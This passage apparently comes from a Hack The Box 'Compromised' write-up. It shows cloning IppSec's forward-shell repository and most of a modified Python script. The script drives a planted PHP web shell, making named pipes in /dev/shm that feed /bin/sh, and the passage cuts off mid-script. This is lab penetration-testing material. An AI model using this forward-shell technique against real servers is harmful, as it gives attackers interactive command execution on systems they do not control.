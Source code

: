 ## Forward Shell

### Cloning the repo
```console
local@local:~/Documents/htb/boxes/compromised$ git clone https://github.com/IppSec/forward-shell
Cloning into 'forward-shell'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 9 (delta 1), reused 6 (delta 1), pack-reused 0
Unpacking objects: 100% (9/9), done.
```
And we make the changes to the script.
### Content of forward-shell.py
```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
#
# Forward Shell Skeleton code that was used in IppSec's Stratosphere Video
# -- https://www.youtube.com/watch?v=uMwcJQcUnmY
# Authors: ippsec, 0xdf


import base64
import random
import requests
import threading
import time

class WebShell(object):

    # Initialize Class + Setup Shell, also configure proxy for easy history/debuging with burp
    def __init__(self, interval=1.3, proxies='http://127.0.0.1:8080'):
        # MODIFY THIS, URL
        self.url = r"http://10.10.10.207/shop/vqmod/xml/shell.php"
        self.proxies = {'http' : proxies}
        session = random.randrange(10000,99999)
        print(f"[*] Session ID: {session}")
        self.stdin = f'/dev/shm/input.{session}'
        self.stdout = f'/dev/shm/output.{session}'
        self.interval = interval

        # set up shell
        print("[*] Setting up fifo shell on target")
        MakeNamedPipes = f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}"
        self.RunRawCmd(MakeNamedPipes, timeout=0.1)

        # set up read thread
        print("[*] Setting up read thread")
        self.interval = interval
        thread = threading.Thread(target=self.ReadThread, args=())
        thread.daemon = True
        thread.start()

    # Read $session, output text to screen & wipe session
    def ReadThread(self):
        GetOutput = f"/bin/cat {self.stdout}"
        while True:
            result = self.RunRawCmd(GetOutput) #, proxy=None)
            if result:
                print(result)
```